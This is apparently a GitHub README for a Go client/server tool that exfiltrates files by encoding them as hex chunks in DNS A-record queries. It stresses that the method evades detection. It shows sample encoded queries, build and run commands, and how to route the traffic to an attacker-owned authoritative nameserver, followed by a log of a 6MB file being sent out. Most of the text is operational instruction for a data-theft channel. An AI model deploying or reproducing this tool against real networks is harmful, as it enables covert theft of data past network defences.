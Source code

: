 # Data Exfiltration using pure DNS

## Why

Pure DNS data exfilitration is difficult to detect and most environments do not block outgoing DNS traffic. The data itself is masquerading as `A` record DNS requests.

## How it works

We split the file (data) into chunks and send them via DNS requests, up to 3 chunks at a time. For example a small file like `go.mod` will result in the following `A` record DNS requests:
```
6d6f64756c65206769746875622e636f6d2f7477697a3731382f646e732d65.7866696c74726174696f6e0a0a676f20312e32332e310a0a72657175697265.20280a096769746875622e636f6d2f6861736869636f72702f676f6c616e67.exfil
2d6c72752f76322076322e302e370a096769746875622e636f6d2f6d69656b.672f646e732076312e312e36340a096769746875622e636f6d2f7374726574.6368722f746573746966792076312e31302e300a290a0a7265717569726520.exfil
280a096769746875622e636f6d2f646176656367682f676f2d737065772076.312e312e31202f2f20696e6469726563740a096769746875622e636f6d2f70.6d657a6172642f676f2d646966666c69622076312e302e30202f2f20696e64.exfil
69726563740a09676f6c616e672e6f72672f782f6d6f642076302e32332e30.202f2f20696e6469726563740a09676f6c616e672e6f72672f782f6e657420.76302e33352e30202f2f20696e6469726563740a09676f6c616e672e6f7267.exfil
2f782f73796e632076302e31312e30202f2f20696e6469726563740a09676f.6c616e672e6f72672f782f7379732076302e33302e30202f2f20696e646972.6563740a09676f6c616e672e6f72672f782f746f6f6c732076302e33302e30.exfil
202f2f20696e6469726563740a09676f706b672e696e2f79616d6c2e763320.76332e302e31202f2f20696e6469726563740a290a.exfil
```

The segments in the fully qualified domain names are the hex representations of the file data chunks. 

The DNS requests themselves will also include [EDNS0](https://en.wikipedia.org/wiki/Extension_Mechanisms_for_DNS) keys/values for file related metadata to assist the server with reassembly.

The server will save all the data chunks until it receives the last one and then write the data out to a file.


## Server

### Building

#### Building on Windows
`go build -o server.exe main.go`

#### Building on Linux / macOS
`go build -o server main.go`

### Running

There are two ways to run the server:

1. You can run it on any machine that can receive traffic from the Internet and then hit it directly via the `send` (client) program.
2. You can run this on your own registered domain's authoritative NS as the listener. ie: you own `foobarbaz.net`, you would modify the server and client code and replace every occurrence of `exfil` with `foobarbaz.net`. Then when you run `send` you would point it to your resolver and it would find the authoritative NS for `foobarbaz.net` and send the queries there.

### Usage
```
  -debug
        enable debug output
  -port int
        dns server port (default 5555)
```

## Client

### Building

#### Building on Windows

`go build -o send.exe .\cmd\send.go`

#### Building on Linux or macOS

`go build -o send ./cmd/send.go`

### Running

Sending a `6mb` file takes `~12s` via pure DNS:

```
PS C:\Users\akhanin\go\src\dns-exfiltration> .\send.exe -file C:\Users\akhanin\Documents\warez_book_0339.1.00.pdf -port 5555 -server 127.0.0.1
Time elapsed: 12.1207572s
```

On the server side:
```
.\server.exe 
2025/04/05 16:04:26 Server is starting on port 5555
2025/04/05 16:04:31 Cache is currently empty.
2025/04/05 16:04:31 Incoming file with md5: 479476f1023f5b5007c2b444e191c5d9, expected number of chunks: 192925
2025/04/05 16:04:36 Number of keys in cache: 1. Keys = [479476f1023f5b5007c2b444e191c5d9]
2025/04/05 16:04:41 Number of keys in cache: 1. Keys = [479476f1023f5b5007c2b444e191c5d9]
2025/04/05 16:04:43 Finished writing data for 479476f1023f5b5007c2b444e191c5d9
2025/04/05 16:04:46 Cache is currently empty.
```

Checking the file sent:
```
PS C:\Users\akhanin\go\src\dns-exfiltration> dir .\479476f1023f5b5007c2b444e191c5d9.data


    Directory: C:\Users\akhanin\go\src\dns-exfiltration


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/5/2025   4:04 PM        5980656 479476f1023f5b5007c2b444e191c5d9.data
```

Checking the file type:
```
akhanin@SUPERUNKNOWN2020 ~/dev/dns-exfiltration
$ file 479476f1023f5b5007c2b444e191c5d9.data
479476f1023f5b5007c2b444e191c5d9.data: PDF document, version 1.3 (password protected)
```